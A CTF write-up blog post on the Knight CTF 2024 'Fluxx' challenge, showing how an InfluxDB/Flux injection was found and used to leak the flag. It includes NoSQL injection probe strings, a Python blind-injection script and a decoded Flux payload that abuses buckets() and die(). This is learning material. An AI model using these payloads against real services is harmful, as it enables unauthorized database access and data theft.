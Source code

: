 ```yaml
---
layout: post
title: "InfluxDB NoSQL SQL injection | Fluxx web CTF challenge writeup | Knight CTF 2024"
author: "Colleirose"
permalink: /influxdb-injection-nosql-injection-knightctf-2024
date: 2024-01-23
---
```


This is the challenge:
<br/>
![Challenge named "Fluxx" with description "Recently I have made a simple app for monitoring and analyzing metrics, events, and real-time data. I used a database which is designed for handling high volumes of timestamped data. But I think its vulnerable find it and get the flag"](/assets/img/challenge fluxx.webp)

Based on the X-Powered-By header being Express on all pages and receiving a <code>Cannot GET /(requested url)</code> on non-existent URLs (e.g. <a href="http://66.228.53.87:9001/a" rel="noopener">66.228.53.87:9001/a</a>), I can infer this is a <a href="https://expressjs.com/" rel="noopener">Express.js</a> server.
<br/>
<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198507422340358154/image.png" alt="Response headers showing X-Powered-By: Express"/>

One of our team member finds <a href="https://book.hacktricks.xyz/pentesting-web/nosql-injection">book.hacktricks.xyz/pentesting-web/nosql-injection</a>, and using that cheatsheeet (which I recommend using because it is very useful), finds that visiting <code>http://66.228.53.87:9001/query?data='%20||%201==1//%20%20%20%20or%20%20%20%20'%20||%201==1%00%20%20%20%20%20or%20%20%20%20admin'%20||%20'a'=='a</code> creates an erorr

I search this error online and learn that it's an error related to <a href="https://github.com/influxdata/influxdb" rel="noopener">InfluxDB</a>, which I haven't heard of until this challenge.
<br/>
<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198512198323011714/image.png" alt="DuckDuckGo search results for the error"/>

This also matches up with the challenge name and description:
<br/>
![Challenge named "Fluxx" with description "Recently I have made a simple app for monitoring and analyzing metrics, events, and real-time data. I used a database which is designed for handling high volumes of timestamped data. But I think its vulnerable find it and get the flag"](/assets/img/challenge fluxx.webp)

Searching about SQL injection in InfluxDB, I find <a href="https://rafa.hashnode.dev/influxdb-nosql-injection" rel="noopener">rafa.hashnode.dev/influxdb-nosql-injection</a>.

After facing some errors, I go back to the article I was copying this code off of and fix my code.

But this is very inefficient to do manually. I find a script on <a href="https://book.hacktricks.xyz/pentesting-web/nosql-injection#blind-nosql" rel="noopener">book.hacktricks.xyz/pentesting-web/nosql-injection#blind-nosql</a> that can automate this. It requires a bit of changes, but here's the working script, based on the Hacktricks resource:

```py
import requests, string

alphabet = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(21):
    print("[i] Looking for char number "+str(i+1))
    for char in alphabet:
        r = requests.get("http://66.228.53.87:9001/query?data=%22)%20%7c%3e%20yield(name%3a%20%221337%22)%20%0d%0abuckets()%20%7c%3e%20filter(fn%3a%20(r)%20%3d%3e%20r.name%20%3d~%20%2f%5e" +flag+char+".*%2f%20and%20die(msg%3ar.name))%20%0d%0a%2f%2f")
        if (r.text != "[]"):
            flag += char
            print("[+] Flag: "+flag)
            break
```

The script then crashes with some error about the connection being aborted but tells me the correct string starts with K

<img src="/assets/img/influxdb knightctf challenge console output.webp" alt="Console output"/>

So I went back to Burp Suite and tried it again with the K

<img src="/assets/img/burp suite influxdb knightctf.webp" alt="Burp Suite output showing the flag as KCTF{gOUPqVWa0eUT2wF2ipzX3v5pxikvqYhxR9oL}"/>

The flag is <code>KCTF{gOUPqVWa0eUT2wF2ipzX3v5pxikvqYhxR9oL}</code> according to the output of this web request. This flag is correct when submitted:

<img src="/assets/img/fluxx challenge correct.webp" alt='Challenge showing "Correct" message after submitting flag'/>

This is the SQL injection payload with the URI parameters decoded. I don't fully understand what it does because I've never used NoSQL or InfluxDB before.

```
") |> yield(name: "1337") 
buckets() |> filter(fn: (r) => r.name =~ /^K.*/ and die(msg:r.name)) 
//
```

I don't know what the first line does, but the second line calls <code>buckets()</code> to list buckets and filters for buckets with a name that matches the regular expression <code>/^K.*/</code>. If it finds one, it dies with the bucket's name (in the output we got in Burp Suite, I'm not sure if some kind of syntax error or <code>die()</code> is what caused the error that included the flag, but it doesn't really matter). The third line is a comment.

In retrospect, maybe <code>/^.*/</code> would've worked fine as the regular expression.